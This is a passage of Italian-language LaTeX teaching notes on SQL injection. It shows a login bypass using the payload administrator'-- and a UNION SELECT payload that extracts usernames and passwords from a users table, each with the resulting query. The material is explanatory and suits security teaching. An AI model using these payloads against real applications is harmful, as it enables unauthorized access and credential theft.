 \subsubsection{Login bypass}

Un’attività particolarmente sensibile è l’autenticazione.
Nelle implementazioni più ingenue, il sistema verifica username e password con una query SQL del tipo:
\begin{verbatim}
SELECT * FROM users
WHERE username = 'alice' AND password = 'password123'
\end{verbatim}

Se l’username inserito dall’utente non viene sanificato, l’attaccante può utilizzare un payload come:
\begin{verbatim}
administrator'--
\end{verbatim}

Il commento SQL (\texttt{--}) tronca il controllo sulla password, portando la query risultante a:
\begin{verbatim}
SELECT * FROM users WHERE username = 'administrator'--' AND password=''
\end{verbatim}
In tal modo l’autenticazione viene bypassata, consentendo l’accesso all’account dell’amministratore.

\subsubsection{Ottenere dati da altre table tramite UNION}

Se l’applicazione restituisce al client il risultato di una query vulnerabile, un attaccante può usare l’operatore \texttt{UNION} per combinare risultati provenienti da un’altra table.
Ad esempio, supponiamo che l’applicazione esegua:
\begin{verbatim}
SELECT name, description FROM products WHERE category = 'Gifts'
\end{verbatim}

Un attaccante può fornire:
\begin{verbatim}
' UNION SELECT username, password FROM users--
\end{verbatim}

La query risultante sarà:
\begin{verbatim}
SELECT name, description
FROM products
WHERE category = ''
UNION SELECT username, password FROM users--
\end{verbatim}

Il database restituirà quindi sia i prodotti sia le credenziali degli utenti, compromettendo la riservatezza del sistema.

